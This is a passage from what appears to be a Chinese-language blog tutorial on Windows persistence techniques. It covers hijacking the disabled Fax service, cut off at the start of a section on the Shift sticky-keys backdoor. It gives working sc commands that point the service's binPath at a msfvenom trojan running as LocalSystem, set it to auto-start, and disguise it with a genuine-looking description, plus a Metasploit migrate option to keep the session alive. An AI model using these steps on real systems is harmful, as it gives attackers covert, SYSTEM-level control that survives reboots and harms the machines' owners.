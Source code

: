 ### 0x08 修改系统服务

当攻击者拿到一台机器的shell时，可以通过修改系统上的服务，以达到持久控制。攻击者将恶意软件隐藏在服务执行的位置，修改该服务执行的用户权限，达到获取高权限 shell 的目的。

首先来了解一下 binPath ， binPath 是将服务指向启动服务时需要执行的二进制文件的位置。操作过程中，我们需要利用sc命令：

SC命令主要的几个功能：

```
Copy`1.更改服务的启动状态(这是比较有用的一个功能),可以设置存储在注册表中的服务属性，以控制如何在启动时启动服务应用程序，以及如何将其作为后台程序运行。即更改服务的启动状态。
2.删除服务(除非对自己电脑的软、硬件所需的服务比较清楚，否则不建议删除任何系统服务，特别是基础服务)。
3.停止或启动服务(功能上类似于net stop/start，但速度更快且能停止的服务更多)。
4.SC可以检索和设置有关服务的控制信息，可以使用SC.exe来测试和调试服务程序。
5.可以创建批处理文件来调用不同的SC命令，以自动启动或关闭服务序列。
#说白了: SC.exe提供的功能类似于”控制面板”中”管理工具”项中的”服务”。` 
```

举个栗子：默认情况下，Windows不会启用传真服务。所以，传真服务是我们修改的理想服务，因为它不会中断正常用户的操作。

```
Copy`#将msfvenom生成的木马文件上传C:\123123.exe。

#修改Fax传真服务
sc config Fax binPath= "C:\123123.exe"
sc start Fax

#创建Fax传真服务，并设置为自启动
sc create Fax binPath= "C:\123123.exe" start= "auto" obj= "LocalSystem"

#增加服务描述
sc descrīption Fax "利用计算机或网络上的可用传真资源发送和接收传真。"` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418222518138-1321932112.png)](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418222518138-1321932112.png)

[![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418222538328-1326157018.png)](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418222538328-1326157018.png)

木马文件执行上线，获得的权限是系统服务权限。一段时间之后，会显示服务没有响应，从而关闭我们的恶意进程。所以 msf 在监听时，要加上如下参数:

```
Copy`set autorunscript migrate -f
#获得会话之后，直接将会话转移到一个稳定进程，保持上线。` 
```

经过测试，重启之后，传真服务不会自动启动执行，所以我们可以利用如下命令：

```
Copy`sc config Fax binPath= "C:\Windows\System32\123123.exe" start= "auto" obj= "LocalSystem"
#这里有一点需要注意，在填写参数时，参数等号后面一定要加”空格”，注意这个细节！` 
```

Windows启动期间，传真服务自动启用，并且执行的权限为System权限。

### 0x09 shift后门

#### 9.1 辅助功能劫持
